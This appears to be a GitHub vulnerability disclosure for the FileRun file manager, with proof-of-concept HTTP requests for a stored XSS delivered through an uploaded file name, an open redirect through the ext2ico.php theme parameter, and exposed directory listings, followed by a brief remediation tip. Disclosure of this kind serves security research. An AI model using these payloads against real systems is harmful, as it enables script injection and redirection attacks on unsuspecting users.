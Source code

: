 # FileRun Vulnerabilities and Exploits
[FileRun](https://filerun.com) application has many vulnerabilities.

## CVE-2019-12457 - CVE-2019-12458 - CVE-2019-12459

## PoC - XSS
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-XXXXX

To exploit vulnerability, someone could upload an allowed file named ```“><img src=x onerror=prompt(document.domain)>``` to impact users who open the page.

```
POST /filerun/?module=fileman&section=do&page=up HTTP/1.1
Host: 172.16.191.129
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:67.0) Gecko/20100101 Firefox/67.0
Accept: */*
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://172.16.191.129/filerun/
Content-Type: multipart/form-data; boundary=---------------------------142096305821079611661465592403
Content-Length: 6034
DNT: 1
Connection: close
Cookie: FileRunSID=aqlneuv86ccj3pi4h476faopi5

-----------------------------142096305821079611661465592403
Content-Disposition: form-data; name="flowTotalSize"

5100
-----------------------------142096305821079611661465592403
Content-Disposition: form-data; name="flowIsFirstChunk"

1
-----------------------------142096305821079611661465592403
Content-Disposition: form-data; name="flowIsLastChunk"

1
-----------------------------142096305821079611661465592403
Content-Disposition: form-data; name="flowFilename"

â><img src=x onerror=prompt(document.domain)>.jpg
-----------------------------142096305821079611661465592403
Content-Disposition: form-data; name="path"

/ROOT/HOME
-----------------------------142096305821079611661465592403
Content-Disposition: form-data; name="file"; filename="â><img src=x onerror=prompt(document.domain)>.jpg"
Content-Type: image/jpg

<%@ I said you should learn! %>


-----------------------------142096305821079611661465592403--
```

![alt tag](https://emreovunc.com/blog/en/FileRun-XSS-Exploit-Vulnerability-02.png)

![alt tag](https://emreovunc.com/blog/en/FileRun-XSS-Exploit-Vulnerability-03.png)

## PoC - Open Redirect
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-XXXXX

An open redirect vulnerability exists in FileRun in '/filerun/images/fico/ext2ico.php?theme=' URL that allows attackers to redirect users to an arbitrary URL. A web application accepts a user-controlled input that specifies a link to an external site, and uses that link in a Redirect.

```
GET /filerun/images/fico/ext2ico.php?theme=https://filerun.com/isaid:)? HTTP/1.1
Host: 172.16.191.129
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-us,en;q=0.5
Cache-Control: no-cache
Cookie: FileRunSID=8ig5vcpk39v1cilv3uq7dp8crn
Referer: http://172.16.191.129/filerun/js/min.php?v=2019.05.21
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:67.0) Gecko/20100101 Firefox/67.0
Content-Length: 4
```
![alt tag](https://emreovunc.com/blog/en/FileRun-OpenRedirection-Vulnerability.png)


## PoC - Directory Listing
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-12457

https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-12458

https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-12459

```
http://[server]/filerun/images/extjs/
http://[server]/filerun/css/ext-ux/
http://[server]/filerun/customizables/plugins/audio_player/
```
![alt tag](https://emreovunc.com/blog/en/FileRun-DirectoryListing-1.png)

![alt tag](https://emreovunc.com/blog/en/FileRun-DirectoryListing-2.png)

![alt tag](https://emreovunc.com/blog/en/FileRun-DirectoryListing-3.png)

## Remediation
You should make sure the directory does not contain sensitive information or you may want to restrict directory listings from the web server configuration.
